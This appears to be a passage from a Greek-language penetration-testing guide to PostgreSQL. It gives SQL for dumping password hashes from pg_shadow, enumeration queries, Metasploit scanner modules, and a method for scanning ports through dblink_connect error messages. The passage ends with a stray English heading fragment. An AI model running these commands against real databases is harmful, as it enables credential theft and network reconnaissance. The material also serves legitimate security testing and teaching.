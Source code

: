 ```sql

#Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

# Get languages
SELECT lanname,lanacl FROM pg_language;

# Show installed extensions
SHOW rds.extensions;
SELECT * FROM pg_extension;

# Get history of commands executed
\s
```
{% hint style="warning" %}
Εάν εκτελέσετε την εντολή **`\list`** και βρείτε μια βάση δεδομένων με το όνομα **`rdsadmin`**, τότε γνωρίζετε ότι βρίσκεστε μέσα σε μια βάση δεδομένων **AWS PostgreSQL**.
{% endhint %}

Για περισσότερες πληροφορίες σχετικά με **πώς να καταχραστείτε μια βάση δεδομένων PostgreSQL**, ελέγξτε:

{% content-ref url="../pentesting-web/sql-injection/postgresql-injection/" %}
[postgresql-injection](../pentesting-web/sql-injection/postgresql-injection/)
{% endcontent-ref %}

## Αυτόματη Απαρίθμηση
```
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection
```
### [**Χυδαία επίθεση**](../generic-methodologies-and-resources/brute-force.md#postgresql)

### **Σάρωση θυρών**

Σύμφωνα με [**αυτή την έρευνα**](https://www.exploit-db.com/papers/13084), όταν μια προσπάθεια σύνδεσης αποτυγχάνει, το `dblink` εκτοξεύει μια εξαίρεση `sqlclient_unable_to_establish_sqlconnection` περιλαμβάνοντας μια εξήγηση του σφάλματος. Παραδείγματα αυτών των λεπτομερειών παρατίθενται παρακάτω.
```sql
SELECT * FROM dblink_connect('host=1.2.3.4
port=5678
user=name
password=secret
dbname=abc
connect_timeout=10');
```
* Ο Φιλοξενητής είναι εκτός σύνδεσης

```DETAIL: δεν ήταν δυνατή η σύνδεση στον διακομιστή: Δεν υπάρχει διαδρομή για τον φιλοξενητή. Εκτελείται ο διακομιστής στον φιλοξενητή "1.2.3.4" και δέχεται συνδέσεις TCP/IP στη θύρα 5678;```

* Η θύρα είναι κλειστή
```
DETAIL:  could not connect to server: Connection refused Is  the  server
running on host "1.2.3.4" and accepting TCP/IP connections on port 5678?
```
* Η θύρα είναι ανοιχτή
```
DETAIL:  server closed the connection unexpectedly This  probably  means
the server terminated abnormally before or while processing the request
```
```plaintext
### PostgreSQL

#### Introduction
```